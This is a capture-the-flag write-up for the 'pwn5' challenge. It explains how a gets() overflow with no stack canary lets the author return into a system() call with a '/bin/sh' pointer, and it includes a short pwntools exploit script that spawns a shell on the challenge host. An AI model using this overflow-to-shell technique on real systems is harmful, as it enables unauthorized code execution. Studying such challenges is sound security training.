


# pwn5

nc pwn.tamuctf.com 4325

For this problem, `ls` is running as a service and it's therefore amusing that the user can see the flag but not `cat` it. The code itself also uses `gets` and there's no canary on the stack. I noticed that I should be able to return to three lines before the call to `system`:



If I put `"/bin/sh"` at wherever on the stack ends up being `[ebp - 0x12]` when three lines before `run_cmd` gets called, then I'll pass a pointer to that string to a call to `system` and I'm good to go without ever needing to leak a stack address. Nice.

Next I just need to run the program and take a look at the stack to figure out where I need to be overwriting information.

The most challenging part of this problem was actually just setting up `gdb` to step over a call to fork `execve`. It turns out I hadn't needed to do that, but `set follow-fork-mode parent` worked for me. This was a very simple ROP problem in the end, I just placed above the return address for the call to `system` a pointer to the string `/bin/sh` in the text section, and that worked for me.

Here's the exploit code:
```
from pwn import *

p = remote('pwn.tamuctf.com', 4325)

payload = "-la" + "AAAABBBBCCCCDD" + p32(0x080488b3) + p32(0x080bc140) + "\n"
p.send(payload)

# Need to return to 0x80488af
p.interactive()
```


